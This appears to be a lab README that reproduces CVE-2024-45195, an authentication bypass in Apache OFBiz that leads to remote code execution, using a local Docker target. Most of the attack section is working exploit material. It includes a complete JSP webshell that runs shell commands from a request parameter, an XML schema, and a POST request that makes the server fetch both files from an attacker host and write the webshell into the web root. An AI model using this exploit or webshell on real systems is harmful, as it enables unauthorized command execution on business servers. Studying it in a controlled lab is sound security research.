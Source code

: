 # Apache OFBiz Authentication Bypass Leads to RCE (CVE-2024-45195)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability occurs as a result of incomplete fixing for previous vulnerabilities (CVE-2024-32113, CVE-2024-36104, and CVE-2024-38856). In Apache OFBiz versions prior to 18.12.16, the developers implemented fixes for these previous issues, but the underlying problem of controller-view map state desynchronization still existed. This allowed attackers to bypass authentication and access sensitive admin-only view maps.

References:

- <https://github.com/apache/ofbiz-framework/commit/ab78769c2d>
- <https://github.com/apache/ofbiz-plugins/commit/8b95fe6fa>
- <https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.10 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

Before reproducing the vulnerability, this exploit requires setting up a malicious XML schema file and a CSV file on an attacker-controlled server

First one `rceschema.xml`, this XML schema defines the structure of the malicious JSP:

```xml
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
        <record name="rceentry" limit="many">
            <field name="jsp" type="String" length="605" position="0"></field>
        </record>
    </data-file>
</data-files>
```

Second one `rcereport.csv`, this CSV file contains the actual JSP code:

```jsp
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><h1>Ahoy!</h1><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
```

Then send the following request:

```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1
Host: target:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 241
Content-Type: application/x-www-form-urlencoded

DATAFILE_LOCATION=http://attacker/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://attacker/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```

![](1.png)

This request exploits the vulnerability by leveraging the viewdatafile view map to write a malicious JSP file to the web root, effectively achieving remote code execution.

After the JSP webshell is written, execute arbitrary commands through `https://localhost:8443/accounting/index.jsp?cmd=id`:

![](2.png)
